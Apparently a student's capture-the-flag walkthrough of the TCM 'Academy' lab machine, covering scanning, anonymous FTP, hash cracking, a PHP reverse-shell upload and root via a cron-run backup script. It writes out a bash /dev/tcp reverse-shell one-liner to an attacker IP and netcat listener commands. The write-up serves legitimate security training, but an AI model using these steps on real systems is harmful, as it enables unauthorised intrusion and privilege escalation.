

**Acadamy**
Creds for set up 
root 
tcm 
 
For this machine. part of set up need to log in and run dhclient. This will enable ip address 
 
Victim IP - 192.168.247.131 
 
arp scan confirm  
192.168.247.131 
 
NMAP 
 
┌──(kali㉿kali)-[~] 
└─$ nmap -T4 -p- -A 192.168.247.131   
Starting Nmap 7.92 ( https://nmap.org ) at 2022-02-01 05:21 EST 
Nmap scan report for 192.168.247.131 
Host is up (0.00055s latency). 
Not shown: 65532 closed tcp ports (conn-refused) 
PORT  STATE SERVICE VERSION 
21/tcp open ftp   vsftpd 3.0.3 
| ftp-anon: Anonymous FTP login allowed (FTP code 230) 
|_-rw-r--r--  1 1000   1000     776 May 30 2021 note.txt 
| ftp-syst:  
|  STAT:  
| FTP server status: 
|   Connected to ::ffff:192.168.247.128 
|   Logged in as ftp 
|   TYPE: ASCII 
|   No session bandwidth limit 
|   Session timeout in seconds is 300 
|   Control connection is plain text 
|   Data connections will be plain text 
|   At session startup, client count was 4 
|   vsFTPd 3.0.3 - secure, fast, stable 
|_End of status 
22/tcp open ssh   OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
| ssh-hostkey:  
|  2048 c7:44:58:86:90:fd:e4:de:5b:0d:bf:07:8d:05:5d:d7 (RSA) 
|  256 78:ec:47:0f:0f:53:aa:a6:05:48:84:80:94:76:a6:23 (ECDSA) 
|_ 256 99:9c:39:11:dd:35:53:a0:29:11:20:c7:f8:bf:71:a4 (ED25519) 
80/tcp open http  Apache httpd 2.4.38 ((Debian)) 
|_http-title: Apache2 Debian Default Page: It works 
|_http-server-header: Apache/2.4.38 (Debian) 
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel 
 
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ . 
Nmap done: 1 IP address (1 host up) scanned in 9.16 seconds 
                                
 
ENUMERATION 
 
Strategy &gt; port 22 Cut it away. generally just a bruteforce attack ont he password. In CTFs this is not ususally the right answer. 
In IRL pentest, you can/should test. You are testing password strenght, for defaults and to see if blue team can detect it. 
 
21/tcp open ftp   vsftpd 3.0.3 
ftp-anon: Anonymous FTP login allowed (FTP code 230) 
note.txt 
Pri 1 - Whats in the note! 
ftp as anonymous 
 
Syntax &gt; ftp &lt;ip&gt;  
 
 
 
 
Download the file. Depending on how the ftp is configured, further attacks could including uploading and executing a malicious file. 
 
NOTE CONTENTS 
 
Hello Heath ! 
Grimmie has setup the test website for the new academy. 
I told him not to use the same password everywhere, he will change it ASAP. 
 
 
I couldn't create a user via the admin panel, so instead I inserted directly into the database with the following command: 
 
INSERT INTO `students` (`StudentRegno`, `studentPhoto`, `password`, `studentName`, `pincode`, `session`, `department`, `semester`, `cgpa`, `creationdate`, `updationDate`) VALUES 
('10201321', '', 'cd73502828457d15655bbd7a63fb0bc8', 'Rum Ham', '777777', '', '', '', '7.60', '2021-05-29 14:36:56', ''); 
 
The StudentRegno number is what you use for login. 
 
 
Le me know what you think of this open-source project, it's from 2020 so it should be secure... right ? 
We can always adapt it to our needs. 
 
-jdelta 
 
END NOTE CONTENTS (well that looks like credentials!) 
 
UID - 10201321  
 
pwd - cd73502828457d15655bbd7a63fb0bc8 (google) = student 
 
HASH-IDENTIFIER tool built into kali could attmept to id the hash  
Google will also do it 
Google can also possible &quot;crack&quot; it. lots of online tools 
or built into Kali (good for offline) 
 
HASHCAT - should be able to crack it... mine is broken ( a prob for another day) 
syntax &gt; hashcat -m 0 (md5) &lt;hashfile&gt; &lt;wordlistfile&gt; 
 
Credentials found 
- id = 10201321  
- pwd = student 
- name = Rum Ham 
 
 
22/tcp open ssh   OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0) 
Pri 3 
 
 
80/tcp open http  Apache httpd 2.4.38 ((Debian)) 
|_http-title: Apache2 Debian Default Page: It works 
|_http-server-header: Apache/2.4.38 (Debian) 
 
GO to web page &gt; its a default apache page. (This is a finding in a report,it should be down or something of value) 
 
 
 
 
 
404 information is another finding. version information 
 
 
Dirbusting! 
 
We have credentails and port 80 open. Credentails are for a 'new site' acadamy? maybe they got together. ALways directory bust a website. 
 
dirb, dirbuster or new tool FFUF 
 
install ffuf 
 
syntax &gt; ffuf -w &lt;wordlist&gt;:FUZZ -u http:&lt;ip&gt;/FUZZ 
 
benefit of ffuf is quicker thatn dirb. only looks 1 level deep where dirb will look inside every directory it finds for subdirs 
 
 
 
 
Resulted in small list of useful results.  
 
Namely academy 
 
ATTACKING PORT 80 
 
 
Navigate back to 192.168.247.131/academy 
 
presented with login request. enter captured ren no and password 
 
Reg no: 10201321 
Password: student 
 
 
apon login you are asked to change password. &gt; this is account take over. 
 
can navigate around the site as desired. 
 
interesting tab! 
 
MY PROFILE TAB &gt; allows upload of files. Option for sutend to upload a profile pic. is there file type validation? 
Upoload a malicuious file to open shell. 
 
 
uplaoading image as expected works 
 
image stored at &gt; http://192.168.247.131/academy/studentphoto/cat.jpeg 
 
 
REVERSE SHELL 
 
server is php. 
 
google php reverse shell. First hitg pentest monkey 
 
https://github.com/pentestmonkey/php-reverse-shell 
 
copy script to new file adjust daults to match attacker machine 
 
 
 
 
save the file somehwere and call it shell.php 
 
shell script is set up. Now set up a listener 
 
syntax &gt; nc -nvlp 1234 (match the port you set)  
 
navigate back to the site and upload the malicious file 
 
navigate to select and update shell.php. IN this instance it ran imidiately. im some cases you will need to navigate to the script and exetue it. 
 
 
 
shell executed. Not root. Time for priv esc. 
 
PRIVESC 
 
Going to use a tool to search for privesc vulneraabilites 
 
linPEAS 
 
https://github.com/carlospolop/PEASS-ng/releases/tag/20220206 
 
access and save the linpeas.sh file. place into a 'transfer' folder 
 
We are preparing to host up th efile from our machine the victim. 
 
host a server on the attacker in the asame location as the linpeas file 
 
syntax &gt; python3 -m http.server 80  
 
now malicious file can be downloaded. 
 
move back to victim and navigate to tmp folder. minimise footprint 
 
 
 
 
linpease is currently not executable. use chmod +x linpeas.sh 
 
 
 
run the script ./linpeas.sh 
 
FINDINGS 
 
looking for RED items 
 
* * * * * /home/grimmie/backup.sh 
 
Searching passwords in config PHP files 
$cfg['Servers'][$i]['AllowNoPassword'] = false;                                                              
$cfg['Servers'][$i]['AllowNoPassword'] = false; 
$cfg['Servers'][$i]['AllowNoPassword'] = false; 
$cfg['ShowChgPassword'] = true; 
$mysql_password = &quot;My_V3ryS3cur3_P4ss&quot;; 
$mysql_password = &quot;My_V3ryS3cur3_P4ss&quot;; 
 
 
SO mysql password... no user associated. 
cat /etc/passwd isdentifed possible user for password and that they are an admin 
grimmie:x:1000:1000:administrator,,,:/home/grimmie:/bin/bash 
 
 
═══════╣ Files inside others home (limit 20) 
/home/grimmie/.bash_history                                                                        
/home/grimmie/.bashrc 
/home/grimmie/backup.sh &gt;&gt;&gt;&gt; whats this! 
/home/grimmie/.profile 
/home/grimmie/.bash_logout 
 
lets try SSH as grimmie 
 
 
 
 
once inside, you can run linpeas.sh again to see if anything has chaanged. potential to chain exploits 
 
 
further privesc later in course. 
 
In grimmie home folder is a backup script running.  
grimmie@academy:~$ cat backup.sh  
#!/bin/bash 
 
rm /tmp/backup.zip 
zip -r /tmp/backup.zip /var/www/html/academy/includes 
chmod 700 /tmp/backup.zip 
grimmie@academy:~$  
 
appears to run a periodic backup of the server... inbuilt tools to see services running does not show backup running. 
Get confirmation with pspy 
 
https://github.com/DominicBreuker/pspy 
 
download and move to transfer folder.  
 
on grimmie cd to tmp folder and download, cghmod, then run pspy 
 
backup.sh runs periodically 
 
 
 
we can abuse this srcipt with a 1 liner 
 
pentest monkey! 
 
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet 
 
bash -i &gt;&amp; /dev/tcp/10.0.0.1/8080 0&gt;&amp;1 
 
 
From here modify the 1 liner to use attacker details. 
 
bash -i &gt;&amp; /dev/tcp/192.168.247.128/8080 0&gt;&amp;1 
 
open a listener in netcat 
 
modify the backup.sh by deleting what in there and pasting in the one liner... wait then profit 
 
 
 
 
Profit! 
 
 
 
